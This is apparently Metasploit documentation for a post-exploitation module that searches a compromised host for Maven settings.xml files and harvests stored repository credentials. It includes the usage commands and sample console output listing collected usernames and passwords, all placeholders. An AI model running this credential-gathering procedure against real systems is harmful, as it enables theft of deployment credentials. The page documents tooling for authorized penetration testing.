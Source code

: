 ## Vulnerable Application

[Maven](https://maven.apache.org/) a software project management.
This module seeks all settings.xml (Maven configuration file) on the target file system to extract credentials from them.
Credentials are store in the <server> tag ; the module also tries to cross the identifier found with the <mirror> or
<repository> tag in order to find the full realm the credentials belong to.

This module was successfully tested against:

- Ubuntu 14.04 and Maven 3.0.5 with shell and meterpreter as session type
- Debian 9 and Maven 3.0.5 with shell and meterpreter as session type

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/maven_creds```
  3. Do: ```set SESSION [SESSION_ID]```
  4. Do: ```run```
  5. If the system has readable configuration files (settings.xml) containing username and passwords, they will be printed out.

## Scenarios

### Ubuntu 14.04 and Maven version 3.0.5

```
msf post(maven_creds) > run

[*] Finding user directories
[*] Unix OS detected
[*] Looting 19 files
[*] Downloading /home/user/settings.xml
[*] Reading settings.xml file from /home/user/settings.xml
[*] Collected the following credentials:
[*]     Id: server-nexus-dev
[*]     Username: deploynexus-dev
[*]     Password: password-dev
[*] Try to find url from id...
[*] No url found, id will be set as realm

[*] Collected the following credentials:
[*]     Id: server-nexus-int
[*]     Username: deploynexus-int
[*]     Password: password-int
[*] Try to find url from id...
[*] Found url in mirror : http://www.myhost.com/int

[*] Collected the following credentials:
[*]     Id: server-nexus-prd
[*]     Username: deploynexus-prd
[*]     Password: password-prd
[*] Try to find url from id...
[*] Found url in repository : http://www.myhost.com/prd


msf post(maven_creds) > creds

Credentials
===========

host  origin  service  public              private         realm                        private_type
----  ------  -------  ------              -------         -----                        ------------
                       deploynexus-dev     password-dev    server-nexus-dev             Password
                       deploynexus-int     password-int    http://www.myhost.com/int    Password
                       deploynexus-prd     password-prd    http://www.myhost.com/prd    Password